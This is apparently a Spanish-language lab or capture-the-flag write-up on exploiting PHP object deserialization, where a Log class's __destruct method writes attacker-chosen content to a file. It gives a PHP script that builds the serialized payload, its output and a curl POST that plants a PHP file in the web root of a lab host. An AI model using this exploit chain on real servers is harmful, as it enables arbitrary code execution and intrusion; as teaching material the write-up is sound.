 El método `__destruct` llama a la función `file_put_contents` y que se encarga de escribir datos en un fichero por lo que podemos usar esto para escribir código ejecutable en la raíz web y luego ejecutarlo.

```
[...]
public function __destruct() {
    file_put_contents($this->f, $this->m, FILE_APPEND);
}
[...]
```

----

### Explotación manual

Para explotar esta vulnerabilidad he creado un simple script php que serializa los datos de la clase `Log` de la siguiente forma:

```
<?php
    class Log {
        public function __construct($f, $m) {
            $this->f = $f;
            $this->m = $m;
        }
    }
    $obj = new Log($argv[1],$argv[2]);
    echo serialize($obj);  
?>
```

Lo que va hacer es pedir 2 argumentos el primero la ruta donde se guardará el archivo a crear y la segunda el contenido que va a tener.

```
❯ php test.php /var/www/html/test.php "<?php phpinfo(); ?>"
O:3:"Log":2:{s:1:"f";s:22:"/var/www/html/test.php";s:1:"m";s:19:"<?php phpinfo(); ?>";}
```

Con el objeto serializado que se ha construido emito una petición por `POST` haciendo uso de la utilidad `curl`.

```
❯ curl -X POST http://172.17.0.2/admin/import_user.php --data-urlencode 'userobj=O:3:"Log":2:{s:1:"f";s:22:"/var/www/html/test.php";s:1:"m";s:18:"<?php phpinfo();?>";}' -H "Cookie: PHPSESSID=ub6kqofpe9a7j01t9s48t9f7nk"
```

Ya desde el navegador es posible ver como el archivo creado es accesible.
